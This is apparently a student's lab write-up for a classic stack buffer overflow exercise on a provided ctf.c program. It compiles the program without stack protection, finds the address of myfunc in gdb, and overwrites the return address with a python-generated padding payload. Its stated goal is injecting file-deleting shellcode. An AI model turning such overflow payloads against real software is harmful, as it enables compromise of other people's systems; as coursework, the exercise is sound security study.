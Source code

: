 # 20110370, Phùng Huy Hoàng
# Lab 2: Buffer overflow attack
## I.Topic
*Inject code to delete file: file_del.asm is given on github*
 And Conduct attack on ctf.c
- This is the function myfunc 

![](./assets//img/topic1.png)

- This is the function main 

![](./assets//img/topic2.png)

- This is file_del.asm which is intended to delete a file in the current directory

![](./assets//img/topic3.png)

## II. Implementation steps
*Run command to compile file ctf.c*
- gcc -g ctf.c -o ctf.ou -fno-stack-protector  

![](./assets//img/biendich.png)

*run gdb and execute the command info disassemble to know the location of the myfunc function*
- gdb ./ctf.ou
- disassemble myfunc

![](./assets//img/Picture4.png)

->then we know the address of the myfunc function is 0x0804851b

*Then execute the following command to overflow the buffer and include the address of the myfunc function*
-  ./ctf.ou $(python -c "print('A' * 112 + '\x1b\x85\x04\x08')")

![](./assets//img/Picture5.png)

- Buffer overflow performed successfully. The myfunc function was executed but because the flag.txt file was missing, it returned the message "flag1 is missing!". Therefore, we must create file flag1.txt to continue. Then run the command again to see if the "myfunc is reached" message appears

![](./assets//img/Picture9.png)

-> As a result, the buffer overflow message occurs again







 
